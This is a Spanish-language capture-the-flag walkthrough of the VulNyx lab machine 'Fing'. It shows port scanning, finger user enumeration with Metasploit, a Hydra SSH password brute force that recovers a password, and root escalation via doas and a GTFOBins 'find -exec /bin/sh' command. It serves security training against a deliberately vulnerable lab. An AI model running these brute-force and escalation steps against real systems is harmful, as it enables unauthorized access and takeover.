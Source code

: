 ```yaml
---
Nombre de la máquina: Fing
Sistema Operativo: Linux
Enlace de descarga: https://vulnyx.com/
---
```


## Escaneo de equipos de la red.

Una vez que hemos descargado la máquina y la hemos levantado en nuestro virtualizador, procedemos a buscarla utilizando la herramienta ARP-SCAN.
```
sudo arp-scan -I (NUESTRA INTERFAZ) --localnet
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/cc792507-e35e-4d23-a315-86612237ff7e)

Nos percatamos de que después de la dirección MAC, el escaneo con ARP-SCAN identifica el dispositivo como 'VMware'. Para confirmarlo, podríamos realizar un ping para verificar la conexión y su TTL.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/eb6f7ab9-0473-4fb1-9018-bec0e316b4b3)


## Nmap.

Una vez que hemos identificado claramente la IP objetivo, es el momento de realizar el escaneo con Nmap.
```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.105
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/01ebda0f-42f4-4834-b556-48c121ee84bf)

Como podemos observar, el escaneo de puertos revela que hay 3 puertos abiertos: 22/SSH, 79/Finger y 80/HTTP. Siguiendo el procedimiento habitual, lo primero que haremos es revisar la aplicación web que se está ejecutando en el puerto 80.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/821b6b76-6410-484a-8bf4-d7f39b1440db)

Dado que se trata de un servidor Apache por defecto, procederemos a buscar directorios, en caso de que los haya.

## Fuzzing.

```
gobuster dir -u http://192.168.1.105 -w (DICCIONARIO)
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/790ff582-ba3a-441d-aec7-5b2f88f3c782)

Como vemos, la herramienta Gobuster no nos encuentra nada interesante, por lo que podríamos ponernos en la búsqueda de subdirectorios. Aunque primero vamos a revisar el servicio del puerto 79 que nos encontró el escaneo con Nmap: Finger.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/fccd9f50-b88e-4b60-a05f-2258fad848ce)
![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/0fd5efe5-b008-4e25-92f8-e0793d775a87)

Encontramos que existen módulos en Metasploit disponibles para ese servicio.

## Metasploit.

Ejecutamos Metasploit y buscamos un módulo con la palabra 'finger'.

```
msfconsole
```
```
search finger
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/9e9f5a1f-fb23-4c1d-9343-f23d5f2c4ccd)

Como observamos, con el módulo número 1 podemos listar usuarios, por lo que procedemos a configurarlo y ejecutarlo.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/f5cc909a-89c7-4939-8899-debd586ac97f)

Después de configurar el exploit, estableciendo la IP objetivo y el diccionario que utilizamos para el ataque con nombres de usuarios, nos indica que hay un usuario llamado 'adam'. Rápidamente, probamos sin éxito el módulo de ataques de fuerza bruta al protocolo SSH, por lo que continuamos con la herramienta Hydra.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/60bebce6-9903-4aaa-b9e2-0f8c40f9f670)

## Hydra.

Atacamos con Hydra indicando el usuario, el diccionario que utilizaremos y el protocolo que vamos a atacar.
```
sudo hydra -l adam -P DICCIONARIO ssh://192.168.1.105
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/f26d8fd3-dd24-4a9a-89d0-1f6884443d26)

Hydra descubre la contraseña "passion", permitiéndonos así conectar por SSH.

## Escalada de privilegios.

Una vez conectados por SSH con el usuario adam, lo primero que probamos son los comandos habituales o estándar:
```
sudo -l
```
```
find / -perm -4000 2</dev/null
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/7c596878-a73b-4511-af43-0c1473cb4b64)

Dentro de los binarios no encontramos nada destacable, excepto el binario DOAS. Por lo tanto, procedemos a descargar y utilizar la herramienta "linpeas.sh" para mayor seguridad.

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/0e16e493-2b1c-4da1-afdc-f02e4f300f31)

Como observamos en el resultado del escaneo con linpeas, nuevamente resalta el binario DOAS y el chequeo del archivo doas.conf. Básicamente, nos indica que podemos ejecutar el binario FIND como root. Por lo tanto, procedemos a buscar más información sobre DOAS.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/bcb0c51a-2be9-4aa6-894b-b2d00ceac5dc)

Finalmente, sabiendo que podemos ejecutar FIND como root, vamos a https://gtfobins.github.io/#find para explorar las opciones que tenemos para escalar privilegios con dicho binario.

```
find . -exec /bin/sh \; -quit
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/6f16b0dd-cd6c-42ca-8299-3076417ea9db)

Colocamos el comando encontrado en GTFObins, especificando que lo ejecutaremos con el comando DOAS y utilizando el usuario ROOT.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/bde0fc3d-b6b8-4e4f-a3cd-3505afd80fef)

Y como podemos observar, ahora somos el usuario root.

## Flags. 
![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/640e0005-326b-46a8-b44b-3875fe2b22e0)
